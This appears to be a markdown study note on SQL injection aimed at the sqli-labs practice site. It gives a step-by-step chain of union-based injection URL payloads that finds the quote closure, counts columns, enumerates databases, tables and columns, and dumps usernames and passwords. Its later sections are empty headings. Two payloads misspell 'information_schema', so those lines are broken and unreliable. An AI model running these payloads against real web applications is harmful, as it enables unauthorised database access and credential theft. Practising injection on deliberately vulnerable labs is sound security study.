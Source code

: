 # SQL Injection

> Before wirting, I want to share a useful learning website about sqli. That [sqli-labs](https://www.cnblogs.com/zhengna/p/12617743.html)

And you are supposed to know the basic of sqli, such as some userful function like "user()","database()","group_concat()", and note that the use
of "#", "--+", etc.

Some useful url encode
1. %20: " "
2. %23: "#"
3. %3a: ":"
4. %7e: "~"
5. %27: "'"
...

**Content**
- [1. Union-based](#1-Union-based-Injection)
- [2. Error-based](#2-Error-based-Injection)

## 1. Union-based Injection

Here are some basic steps of union injection.

### 1.1 Look for the type of closing symbol

See you need to upload the **$id**

You can put "/?id=" + followings:
1. 1 or 1=1--+
2. 1' or 1=1--+
3. 1" or 1=1--+
4. 1) or 1=1--+
5. 1') or 1=1--+
6. 1") or 1=1--+

You can find that the correct closing lead to a normal reflect instead of ERROR.

### 1.2 Ensure the column number

We assume that $id closed by single quote, then use **order** to find the columns.

Try 
```
?id=1' order by 1--+
```
and then 
```
?id=1' order by 2--+
```
until errors. That's the column number.

### 1.3 Check out the display data

Suppose that there is three columns in total.
```
?id=-1' union select 1,2,3 --+
```
If the output contains 2 and 3, we can set payload in position 2 and 3, where will show the data we want.

Note that there is always a **LIMIT 0,1** in the query. And you need to make the select of $id not work.

### 1.4 Blast databases

The current database you are using is **database()**
Use following to show it:
```
?id=-1' union select 1,database(),3 --+
```

If you want to show the all databases, try following:
```
?id=-1' union select 1,group_concat(schema_name),3 from information_schame.schemata --+
```

### 1.5 Blast tables

You always need to know the tables in your current database, blast tables like this:

```
?id=-1' union select 1,group_concat(table_name),3 from information_schame.tables where table_schema=database() --+
```

You can replace the database() with the database name you found in step 4.

### 1.6 Blast columns

Say you want to blast all columns of table "users" in current database. 

```
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
```

### 1.7 Dump the data

Finally, you got the "id,username,password" columns in table users. 
```
?id=-1' union select 1,group_concat(username, 0x3a, password),3 from users --+
```

## 2. Error-based Injection

## 3. Bool Blind Injection

## 4. Time Blind Injection





